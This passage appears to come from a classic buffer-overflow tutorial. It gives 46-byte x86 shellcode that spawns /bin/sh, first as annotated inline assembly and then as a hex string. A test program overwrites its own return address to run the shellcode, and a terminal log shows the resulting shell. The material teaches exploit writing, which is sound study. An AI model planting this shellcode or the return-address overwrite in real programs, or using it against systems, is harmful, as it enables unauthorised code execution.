{% highlight C %}
shellcodeasm2.c
------------------------------------------------------------------------------
void main() {
__asm__("
        jmp    0x1f                     # 2 bytes
        popl   %esi                     # 1 byte
        movl   %esi,0x8(%esi)           # 3 bytes
        xorl   %eax,%eax                # 2 bytes
	movb   %eax,0x7(%esi)		# 3 bytes
        movl   %eax,0xc(%esi)           # 3 bytes
        movb   $0xb,%al                 # 2 bytes
        movl   %esi,%ebx                # 2 bytes
        leal   0x8(%esi),%ecx           # 3 bytes
        leal   0xc(%esi),%edx           # 3 bytes
        int    $0x80                    # 2 bytes
        xorl   %ebx,%ebx                # 2 bytes
        movl   %ebx,%eax                # 2 bytes
        inc    %eax                     # 1 bytes
        int    $0x80                    # 2 bytes
        call   -0x24                    # 5 bytes
        .string \"/bin/sh\"             # 8 bytes
					# 46 bytes total
");
}
------------------------------------------------------------------------------
{% endhighlight %}

And our new test program:

{% highlight C %}
testsc2.c
------------------------------------------------------------------------------
char shellcode[] =
	"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
	"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
	"\x80\xe8\xdc\xff\xff\xff/bin/sh";

void main() {
   int *ret;

   ret = (int *)&ret + 2;
   (*ret) = (int)shellcode;

}
------------------------------------------------------------------------------
{% endhighlight %}

```
------------------------------------------------------------------------------
[aleph1]$ gcc -o testsc2 testsc2.c
[aleph1]$ ./testsc2
$ exit
[aleph1]$
------------------------------------------------------------------------------
```

---